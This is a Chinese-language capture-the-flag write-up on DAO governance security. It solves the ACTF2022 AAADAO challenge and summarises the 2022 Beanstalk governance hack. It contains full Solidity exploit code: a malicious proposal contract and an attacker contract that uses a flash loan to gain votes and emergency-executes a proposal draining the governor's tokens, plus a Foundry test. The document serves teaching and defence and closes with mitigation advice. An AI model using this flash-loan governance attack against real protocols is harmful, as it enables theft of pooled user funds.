



# 安全

去中心化的治理在带来民主的同时，由于提案投票权利的分散，也带来了安全性的问题。因此，治理协议的安全性是一个非常重要的问题。

想象一下，如果黑客可以通过恶意提案、大量投票从而达到控制项目、转移资产，后果是不堪设想的。

这里我们通过一道赛题切入，了解一下闪电贷结合提案攻击的流程。

## ACTF2022 AAADAO 

### 题目描述

#### Deploy合约

```solidity

contract Deployer{

    event Deploy(address token, address gov);

    function init() external returns(address,address) {
        AAA token=new AAA();
        Gov gov=new Gov(IVotes(token));
        token.transfer(address(gov),token.balanceOf(address(this)));
        
        emit Deploy(address(token), address(gov));
    
        return (address(token),address(gov));
    }
}

```

首先创造了一个ERC20 token，AAA。然后又创造了一个DAO，Gov。并将所有的AAA token都转到了Gov合约中。

解题条件是清空Gov合约中的所有token。

#### Token合约

```solidity
pragma solidity ^0.8.0;

import "./token/ERC20/extensions/ERC20Votes.sol";
import "./interfaces/IERC3156FlashBorrower.sol";
import "./interfaces/IERC3156FlashLender.sol";

bytes32 constant _RETURN_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

contract AAA is ERC20Votes{
    constructor() ERC20("AToken", "AAA") ERC20Permit("AToken") {
        _mint(msg.sender, 100000000 * 10 ** decimals());
    }

    function maxFlashLoan(address token) public view returns (uint256) {
        return token == address(this) ? type(uint256).max - ERC20.totalSupply() : 0;
    }

    function flashFee(address token, uint256 amount) public view returns (uint256) {
        require(token == address(this));
        uint fee=amount/100;

        if(fee<10){
            return 10;
        }
        return fee;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) public returns (bool) {
        require(amount <= maxFlashLoan(token));
        uint256 fee = flashFee(token, amount);
        _mint(address(receiver), amount);
        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == _RETURN_VALUE
        );
        _spendAllowance(address(receiver), address(this), amount + fee);
        _burn(address(receiver), amount + fee);
        return true;
    }
}


```

可以看到的是，合约实现了一个标准ERC20 token，并且还附带有ERC3156闪电贷功能，手续费为1%。

**同时还要求**
- receiver符合IERC3156FlashBorrower类型
- receiver要实现onflashloan函数，并且返回_RETURN_VALUE
- receiver要给Token合约授权**amount+fee**的额度

#### Gov合约
    
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.2;

import "./interfaces/IERC20.sol";
import "./governance/Governor.sol";
import "./governance/extensions/GovernorVotes.sol";
import "./governance/extensions/GovernorCountingSimple.sol";
import "./governance/extensions/GovernorVotesQuorumFraction.sol";

contract Gov is Governor, GovernorVotes,GovernorCountingSimple,GovernorVotesQuorumFraction{
    address mytoken;
    constructor(IVotes _token)
        Governor("AAAGov")
        GovernorVotes(_token)
        GovernorVotesQuorumFraction(4)
    {
        _token.delegate(address(this));
        mytoken=address(_token);
    }

    function votingDelay() public pure override returns (uint256) {
        return 10; // 1 day
    }

    function votingPeriod() public pure override returns (uint256) {
        return 46027; // 1 week
    }

    function proposalThreshold() public pure override returns (uint256) {
        return 0;
    }
}
```

合约的主要内容为

- 提案的基准票数百分比为4%
- 提案要求持有最低token为0，即谁都可以发送提案
- 提案开始投票时间为10个Block
- 提案持续时间为46027个Block

显然我们是等不到46027个Block的，所以我们需要用到`emergencyExecuteRightNow`立即执行提案。

查阅代码发`emergencyExecuteRightNow`需要满足条件
- _quorumReachedEmergency(proposalId)
  - proposalvote.forVotes > proposalvote.againstVotes*2
- _voteSucceededEmergency(proposalId))
  - quorum(proposalSnapshot(proposalId)) *2 <= proposalvote.forVotes + proposalvote.abstainVotes;

即赞成票大于反对票的2倍，并且大于4%*2=8%

因为提案无门槛，并且我们拥有闪电贷，借出大于8%的token，所以很容易可以构造一个攻击提案，将Gov合约中的所有AAA token都转到攻击者中。

### 恶意提案
    
```solidity
contract Proposal {
    address public immutable TokenAddress;
    address public immutable GovernorAddress; 
    address public immutable  HackerAddress;
    constructor(address token,address gov){
        TokenAddress = token;
        GovernorAddress = gov;
        HackerAddress = msg.sender;
    }
    function executeProposal() public {
        AAA a = AAA(TokenAddress);
        a.transfer(HackerAddress, a.balanceOf(GovernorAddress));
    }
}

```
恶意提案内容很简单，即将Gov合约中的所有AAA token转移到攻击者中。

这里出现了一个问题，在调试时发现所有地址都是0，后来查阅资料得知executeProposal是delegatecall调用的，使用的合约上下文是目标合约(gov合约)，所以必须将需要的addresss设为常量写死。官方解释为
>  constant and immutable variables do not occupy a storage slot, they are injected in the bytecode at compile time. 

而constant 和 immutable 的区别是constant必须在初始化时赋值，**immutable可以在构造函数中赋值**，因此在这我们选择immutable。

### 攻击合约

```solidity 
contract Hacker {
    AAA public a;
    Gov public g;
    address public ProposalAddress;
    uint256 public pid;
    constructor(address token, address gov) {
        a = AAA(token);
        g = Gov(payable(gov));
        ProposalAddress = address(new Proposal(token,gov));
        address[] memory _addr = new address[](1);
        _addr[0] = ProposalAddress;
        uint256[] memory _value = new uint256[](1);
        _value[0] = 0;
        bytes[] memory _sig = new bytes[](1);
        _sig[0] = abi.encodeWithSignature("executeProposal()");
        string memory _desc = "114514";
        pid = g.propose(_addr, _value, _sig, _desc);
    }
    function Hack() public {
        a.flashLoan(
            IERC3156FlashBorrower(address(this)),
            address(a),
            a.totalSupply() / 10,
            ""
        );
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        a.delegate(address(this));
        address[] memory _addr = new address[](1);
        _addr[0] = ProposalAddress;
        uint256[] memory _value = new uint256[](1);
        _value[0] = 0;
        bytes[] memory _sig = new bytes[](1);
        _sig[0] = abi.encodeWithSignature("executeProposal()");
        string memory _desc = "114514";
        g.castVote(pid, 1);
        g.emergencyExecuteRightNow(_addr, _value, _sig, keccak256(bytes(_desc)));
        a.increaseAllowance(address(a), amount + fee);
        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

首先在构造函数中我们使用了构造了恶意提案并且进行了提案。

- targets即为提案的合约地址
- values指提案需要发送的values，这里不用，我们设为0
- calldatas为执行提案的calldata，这里我们填入executeProposal的signature即可
- description为提案的描述，这里我们随便填一个数

完成提案后我们得到了提案的id，记为pid，在后续执行提案时会用到。

接下来便是我们的闪电贷合约，这里我们选择贷走10%的token，符合了紧急执行提案的条件，同时也尽量减少了闪电贷的手续费。

闪电贷的逻辑中，我们首先将代理投票权给了hacker。然后进行投票，投1即是支持(for)。

之后进行了紧急执行，执行之后再授权给AAA合约amount+fee的额度以偿还闪电贷。

至此，攻击完成了，gov合约中的所有token都被转移到了hacker合约中。

### 攻击流程

```solidity
function testexp() public {
        console.log("token:",address(token));
        console.log("gov:",address(gov));
        hacker = new Hacker(address(token),address(gov));

        console.log("Hacker Address", address(hacker));
        vm.roll(12);
        console.log("block number:",block.number);
        hacker.Hack();
        console.log("Balance of gov",token.balanceOf(address(gov)));
        console.log("Balance of hacker",token.balanceOf(address(hacker)));
    }
```
复现时使用的foundry进行测试，但是投票需要10个区块之后，不过还好foundry有cheatcodes，可以轻松改变区块高度。



## 真实案例

### The Beanstalk Hack 

2022年4月，Beanstalk被治理攻击，损失了181w$。并且，黑客捐赠了25万给了乌克兰战争基金地址。

起因是治理协议中含有`emergencyCommit`紧急执行函数，周期为一天，当有2/3的赞成票时即可立即执行，如下图。



首先，黑客进行了恶意提案，提案内容为偷走合约中所有的钱，下图标出了恶意提案地址和提案执行签名。



而再在治理协议中，投票权重由向Beanstalk协议的Diamond contract的捐赠决定。于是在一天之后，黑客发起了攻击。
黑客的主要攻击流程为：

- 通过闪电贷获得DAI，USDT，USDC
- 再次通过uniswap，sushiswap 闪电贷得到BEAN 和 LUSD
- 使用DAI，USDT，USDC换取 CRV
- 再将CRV，LUSD，BEAN换取BEAN3CRV-f，BEANLUSD-f等流动性代币
- 将BEAN3CRV-f，BEANLUSD-f存入Diamond 中满足紧急执行的条件
- **对BIP18恶意提案进行投票**
- 执行恶意提案，将治理合约中所有资产发送给黑客合约
- 通过移除流动性、交换将得到的资产换取USDT，USDC，DAI，LUSD，BEAN并偿还闪电贷
- 将多余的稳定币换取ETH
- *黑客还发送了25000USDT给了乌克兰战争基金地址*


# 总结

Defi治理实现了"区块链民主"，但是在带来民主的同时也带来了风险。对于治理合约管理者，要再三警惕恶意提案。同时，延迟执行链上治理也是防止恶意提案的一种方法，使投票和执行不在同一个区块来避免闪电贷的攻击；对合约多加审计，来保证项目的安全。